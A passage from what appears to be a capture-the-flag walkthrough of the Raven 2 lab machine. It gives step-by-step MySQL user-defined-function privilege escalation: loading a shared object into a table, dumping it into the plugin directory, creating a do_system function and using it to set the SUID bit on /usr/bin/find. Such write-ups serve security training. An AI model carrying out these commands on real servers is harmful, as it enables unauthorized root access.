 Now in the victim machine, we login into MSQL service:

```bash
mysql -u root -p

# when asked about password, we enter R@v3nSecurity
```

We're in! Let's do some digging:

```mysql
# List databases
SHOW databases;

# Select a database
use mysql;
```

Exploiting the vulnerability: we'll create a table in the database, with a column, and we will assing a value to that column that it's going to be our payload file with the extension .so.

```mysql
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
```

So far:

![Mysql capture](img(raven2-19.png)

Now, we are going to load that file from the column to a different location, let's say /usr/lib/mysql/plugin/1518.so:

```mysql
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';

# We will execute
create function do_system returns integer soname '1518.so';
```


If we now execute: 

```mysql
select do_system('chmod u+s /usr/bin/find');
exit

```

![MYSQL creation of a function](img/raven2-20.png)
